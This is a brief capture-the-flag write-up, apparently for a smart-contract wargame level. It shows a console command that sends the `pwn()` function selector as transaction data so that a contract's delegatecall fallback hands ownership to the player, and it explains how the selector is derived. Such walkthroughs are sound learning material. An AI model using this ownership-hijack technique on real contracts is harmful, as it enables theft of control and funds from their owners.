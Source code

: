 # In the Console

To claim ownership: `await sendTransaction({from: player, to: contract.address, data:"0xdd365b8b"})`

## Why?

We use the method ID of the `pwn()` function in the `Delegate` contract.

### How to get Method ID

We hash `pwn()` with keccak-256. Then, we take the first 4 bytes of the resulting hash and prefix with it with `0x`.
